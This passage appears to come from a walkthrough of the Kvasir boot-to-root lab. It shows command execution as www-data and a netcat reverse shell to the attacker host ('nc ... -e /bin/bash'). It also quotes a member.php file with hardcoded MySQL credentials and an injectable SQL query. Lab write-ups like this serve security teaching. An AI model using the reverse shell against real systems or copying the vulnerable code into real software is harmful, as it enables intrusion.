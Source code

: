 ```bash
(kvasir)root@kali:~# python cmd.py "id"
Command to run: id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And so, initial enumeration was done. Immediately I noticed that this host had 2 network interfaces. **192.168.1.100** and **192.168.2.100**. No sign of **192.168.56.102** here... It also seemed like I would be able to build a netcat shell out of this environment to my attacking host, so I set up a listener with `nc -lvp 4444`, and connected to it using my `cmd.py` script `python cmd.py "/bin/nc 192.168.56.101 4444 -e /bin/bash"`:

```bash
root@kali:~# nc -lvp 4444 
listening on [any] 4444 ...
192.168.56.102: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 53516
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So, in order to make sure we don't lose our place, consider the following simple diagram showing the network paths for gaining first shell access to the host `web`:

{% img https://i.imgur.com/Q2rSi2G.png %}

The only public presence of the internal network is therefore the originally discovered **192.168.56.102** IP address.

##my-see-qual as root deserves a slap on the wrist
With semi interactive shell access using `netcat` to **web** (192.168.1.100), some more enumeration was done. Most importantly, the sources serving the web site that I have exploited to gain a command shell revealed credentials and a host of a MySQL instance. Consider the following extract from `member.php`:

```php
<?php

session_start();

if (!isset($_SESSION["member"])) {
    header("Location: index.php");
}

$user = $_SESSION["username"];

mysql_connect("192.168.2.200", "webapp", "webapp") or die(mysql_error());
mysql_select_db("webapp") or die(mysql_error());

$query = "SELECT dob FROM users WHERE username='$user'";
$result = mysql_query($query) or die(mysql_error());

?>
[... snip ...]
```
